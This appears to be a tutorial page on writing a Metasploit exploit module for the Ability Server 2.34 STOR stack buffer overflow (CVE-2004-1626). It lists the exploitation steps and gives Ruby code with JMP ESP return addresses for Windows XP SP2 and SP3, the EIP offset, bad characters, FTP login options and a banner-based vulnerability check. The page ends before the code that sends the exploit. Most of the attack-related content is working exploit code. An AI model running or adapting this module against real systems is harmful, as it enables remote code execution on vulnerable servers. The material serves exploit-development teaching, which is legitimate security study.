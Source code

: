 # Exploit module

## Remote Exploit 

### FTP exploit 

#### What we want? 
- Include metasploit FTP suitable module for exploitation
- Take Username and password if required 
- Since the EIP Offset could vary between Window versions, will take target list
- Check if the remote host hast has the vulnerable version 
- Take the EIP Offset of each target 
- Set the bad characters
- Send the exploit



- Include metasploit FTP suitable module for exploitation
- Take Username and password if required 
- Since the EIP Offset could vary between Window versions, will take target list

```ruby

include Msf::Exploit::Remote::Ftp


def initialize(info = {})
super(update_info(info,
  'Name'           => 'Ability Server 2.34 STOR Command Stack Buffer Overflow',
  'Description'    => %q{
    This module exploits a stack-based buffer overflow in Ability Server 2.34.
    Ability Server fails to check input size when parsing 'STOR' and 'APPE' commands,
    which leads to a stack based buffer overflow. This plugin uses the 'STOR' command.

    The vulnerability has been confirmed on version 2.34 and has also been reported
    in version 2.25 and 2.32. Other versions may also be affected.
  },
  'Author'         =>
    [
      'muts',           #Initial discovery
      'Dark Eagle',     #same as muts
      'Peter Osterberg' #Metasploit
    ],
  'License'        => MSF_LICENSE,
  'References'     =>
    [
      [ 'CVE', '2004-1626' ],
      [ 'OSVDB', '11030'],
      [ 'EDB', '588'],
    ],
  'DefaultOptions' =>
    {
      'EXITFUNC' => 'process'
    },
  'Privileged'     => false,
  'Payload'        =>
    {
      'Space'    => 1000,
      'BadChars' => "\x00\xff"
    },
  'Platform'       => 'win',
  'Targets'        =>
    [
      [
        'Windows XP SP2 ENG',
        {
          #JMP ESP  (MFC42.dll. Addr remains unchanged until a patched SP3)
          'Ret' => 0x73E32ECF,
          'Offset' => 966
        }
      ],
      [
        'Windows XP SP3 ENG',
        {
          #JMP ESP  (USER32.dll. Unchanged unpatched SP3 - fully pathced)
          'Ret' => 0x7E429353,
          'Offset' => 966
        }
      ],
    ],
  'DisclosureDate' => 'Oct 22 2004'
  ))

register_options(
  [
    Opt::RPORT(21),
    OptString.new('FTPUSER', [ true, 'Valid FTP username', 'ftp' ]),
    OptString.new('FTPPASS', [ true, 'Valid FTP password for username', 'ftp' ])
  ], self.class)
end
```


- Check if the remote host hast has the vulnerable version 

```ruby
  def check
    connect
    disconnect
    if banner =~ /Ability Server 2\.34/
      return Exploit::CheckCode::Appears
    else
      if banner =~ /Ability Server/
        return Exploit::CheckCode::Detected
      end
    end
    return Exploit::CheckCode::Safe
  end
```





